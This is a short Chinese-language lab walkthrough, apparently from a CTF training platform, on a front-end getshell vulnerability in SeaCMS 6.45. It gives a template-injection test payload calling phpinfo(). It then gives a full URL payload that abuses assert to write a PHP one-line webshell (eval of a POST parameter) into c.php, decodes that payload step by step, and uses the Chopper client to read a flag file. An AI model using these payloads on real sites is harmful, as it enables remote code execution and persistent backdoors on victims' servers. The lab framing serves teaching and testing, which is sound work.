


# 海洋CMS 6.45版本前台getshell漏洞

## **【实验步骤】**

**步骤1：** 访问环境url，点击进行测试环境

**步骤2：** 对该CMS系统进行渗透测试找出存在的漏洞注入点（利用payload：`searchword=d&order=}{end if}{if:1)phpinfo();if(1}{end if}`）查看能否进行命令执行


**步骤3：** 对注入点进行攻击，构造注入代码插入一句话木马，利用payload：

```url
searchword=d&order=}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29;
```

**注：** 该语句主要代码为`fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29;`
URL解码后得到`fputs(fopen(base64_decode(Yy5waHA),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x));`，
再进行base64解码得到：`fputs(fopen(c.php,w),<?php @eval($_POST[c]); ?>);`,即插入一句话木马到c.php文件中。

**步骤4：** 菜刀连接一句话木马，获取flag.txt中的flag信息。

**注：** 生成的c.php文件在当前目录下，菜刀连接c.php密码c进行连接


执行结果：

查看flag.txt信息


